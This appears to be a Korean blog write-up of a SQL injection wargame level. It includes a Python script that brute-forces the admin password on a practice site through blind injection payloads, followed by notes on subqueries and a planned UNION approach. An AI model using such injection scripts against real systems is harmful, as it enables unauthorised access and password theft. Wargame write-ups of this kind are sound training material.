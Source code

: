 앞선 문제들 중에서 `LIKE` 절을 이용한 풀이가 막힌 상태이다. 그러나 오히려 `left()`, `substr()`  등등이 사용가능 하다.

하지만 역시나

```python
import requests
cookie = {'PHPSESSID':'li50f951judq090e205e9dcs4h'}

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw={upw}'
	print(url)
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw():
	res = ""
	for c in range(1,10):
		for i in range(0,127):
			upw = f'\' or left(pw,{c})="{res}'+chr(i)+'" --+'
			response = my_request(upw)
			if "Hello admin" in response.text:
				print("I got: ",chr(i))
				res += chr(i)
				break

	print("I think it was completed")

def solve():
	find_pw()

if __name__ == "__main__":
	solve()	

```

이전에 풀었던 문제들처럼 브루트 포싱을 시도했음에도 전혀 결과가 나오질 않았고 쿼리가 잘못되었는지 수없이 확인했지만 값을 얻을 수 없었다. 

놓친 것이 있는지 코드를 다시 읽다보면 서브 쿼리를 사용이 가능할 것 같다는 생각이 들었다. 배워뒀었지만 그간 필터링에 의해 사용하지 못했던 것을 이용해보기로 했다. 그 중에서 가장 눈에 밟히는 것은 쿼리문을 합치는 `UNION` 연산자인데, 이를 이용하면 앞선 쿼리 결과와 함께 연관되어 결과 출력이 가능하다. 따라서 `A UNION B` 와 같은 쿼리에서 A로 부터 admin의 pw를 얻고 B에서 해당 결과를 출력시키도록 해야겠다.

### 서브쿼리
sqld 자격증 공부 당시 익혀둔 개념으로 `SELECT`와 같은 구문의 `WHERE` 또는 `FROM` 절에서  괄호 `()`를 이용하여 쿼리 안에 쿼리를 넣음으로써 다양한 결과를 얻어낼 수 있다.

예로 다음과 같다.

![image-20220612181453756](../img/image-20220612181453756.png)

서브 쿼리는 `SELECT` 구문에서 사용할 때, `FROM` 절에서 사용될 때, `WHERE` 절에서 사용될 때 등 사용되는 위치에 따라 결과값이 반드시 하나여야 한다는 등의 조건이 존재한다. 하지만 이번 문제에서 사용하려는 서브쿼리의 위치는 `WHERE` 절이기에 서브쿼리의 결과 칼럼이 1개이도록만 만들면 되겠다.

![image-20220612181923235](../img/image-20220612181923235.png)
